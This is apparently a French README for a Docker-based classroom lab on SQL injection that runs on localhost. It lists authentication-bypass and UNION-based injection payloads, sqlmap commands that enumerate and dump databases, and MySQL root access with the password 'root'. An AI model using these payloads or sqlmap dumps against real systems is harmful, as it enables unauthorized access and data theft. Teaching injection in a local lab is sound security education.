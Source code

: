 ```
  ____   ___  _       ___        _           _   _             
 / ___| / _ \| |     |_ _|_ __  (_) ___  ___| |_(_) ___  _ __  
 \___ \| | | | |      | || '_ \ | |/ _ \/ __| __| |/ _ \| '_ \ 
  ___) | |_| | |___   | || | | || |  __/ (__| |_| | (_) | | | |
 |____/ \__\_\_____| |___|_| |_|/ |\___|\___|\__|_|\___/|_| |_|
                              |__/                             
```

![](readme_docs/287167c6.png)

Container Docker pour suivre le cours sur les Injections SQL

# Prérequis

* Docker
* Docker-compose
* Ports 8000, 8032, 8081 disponibles

# Lancement

Cloner le dépôt sur votre WSL

```bash
git clone git@github.com:LiliwoL/B3-Docker-Injection-SQL-Demonstration.git
```

Lancer le container

```bash
cd B3-Docker-Injection-SQL-Demonstration
bin/start
```

Accéder à la page web à l'adresse suivante:

http://127.0.0.8:8000


---

# Injections SQL possibles

## Authentification sans mot de passe

`' or 1=1 -- `

> Ne pas oublier l'espace à la fin

## Enumération des utilisateurs

`' or 1=1 UNION SELECT * FROM users -- `

## Insertion d'un utilisateur dans la table users

`' or 1=1 UNION SELECT 'admin', 'admin', 'admin', 'admin' -- `

# SQLMap

sqlmap -u http://127.0.0.1:8000 --forms --dbs

![](readme_docs/86043759.png)

sqlmap -u http://127.0.0.1:8000 --forms --tables -D db_name

![](readme_docs/8f6b0a65.png)

sqlmap -u http://127.0.0.1:8000 --forms --dump -D db_name -T table_name

![](readme_docs/3137fd85.png)

# Lancement

Clonez le dépôt

```bash
git clone 
```

Lancez le container

```bash
bin/start
```

Accédez au shell du container MySQL

```bash
bin/shell
```

![](readme_docs/d0107619.png)

Lancement du client mysql (saisissez le mot de passe **root**)

```bash
root@94416fbdf8e8:/# mysql -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 7
Server version: 10.7.3-MariaDB-1:10.7.3+maria~focal mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

